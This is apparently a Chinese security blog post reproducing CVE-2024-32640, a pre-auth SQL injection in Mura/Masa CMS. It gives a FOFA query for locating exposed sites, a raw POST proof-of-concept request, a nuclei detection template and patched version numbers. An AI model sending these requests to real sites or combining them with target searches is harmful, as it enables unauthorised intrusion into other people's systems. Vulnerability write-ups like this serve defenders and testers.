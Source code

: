 #  CVE-2024-32640漏洞复现   
原创 fgz  AI与网安   2024-05-25 08:30  
  
免  
责  
申  
明  
：**本文内容为学习笔记分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！**  
  
  
  
01  
  
—  
  
漏洞名称  
  
  
  
Mura-CMS-processAsyncObject存在SQL注入漏洞  
  
  
  
02  
  
—  
  
漏洞影响  
  
  
Mura CMS版本不详  
  
  
  
  
03  
  
—  
  
漏洞描述  
  
  
Mura CMS 是一个功能全面、灵活且用户友好的内容管理系统。2024年5月8日，互联网上披露其存在CVE-2024-32640 Mura CMS processAsyncObject SQL注入漏洞，攻击者可构造恶意请求获取数据库中的敏感信息。  
  
  
04  
  
—  
  
FOFA搜索语句  
  
  
```
"Generator: Masa CMS"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BOibFBjWYhDibeLdMCTUF6lSZlKYwkdIiaoJF3QNouiaw0Psx6LKZ9XSfQTKOv8ALIwRP3eX4U0Dsrqcw/640?wx_fmt=png&from=appmsg "")  
  
  
05  
  
—  
  
漏洞复现  
  
  
POC数据包  
```
POST /index.cfm/_api/json/v1/default/?method=processAsyncObject HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

object=displayregion&contenthistid=x\'&previewid=1
```  
  
  
  
  
  
06  
  
—  
  
nuclei poc  
  
  
poc文件内容如下  
```
id: CVE-2024-32640

info:
  name: Mura/Masa CMS - SQL Injection
  author: iamnoooob,rootxharsh,pdresearch
  severity: critical
  description: |
    The Mura/Masa CMS is vulnerable to SQL Injection.
  reference:
    - https://blog.projectdiscovery.io/mura-masa-cms-pre-auth-sql-injection/
    - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-32640
  impact: |
    Successful exploitation could lead to unauthorized access to sensitive data.
  remediation: |
    Apply the vendor-supplied patch or update to a secure version.
  metadata:
    verified: true
    max-request: 3
    vendor: masacms
    product: masacms
    shodan-query: 'Generator: Masa CMS'
  tags: cve,cve2022,sqli,cms,masa,masacms

http:
  - raw:
      - |
        POST /index.cfm/_api/json/v1/default/?method=processAsyncObject HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded

        object=displayregion&contenthistid=x\'&previewid=1

    matchers:
      - type: dsl
        dsl:
          - 'status_code == 500'
          - 'contains(header, "application/json")'
          - 'contains_all(body, "Unhandled Exception")'
          - 'contains_all(header,"cfid","cftoken")'
        condition: and
```  
  
  
  
  
07  
  
—  
  
修复建议  
  
  
升级到  
 7.4.6、7.3.13 、7.2.8版本。  
  

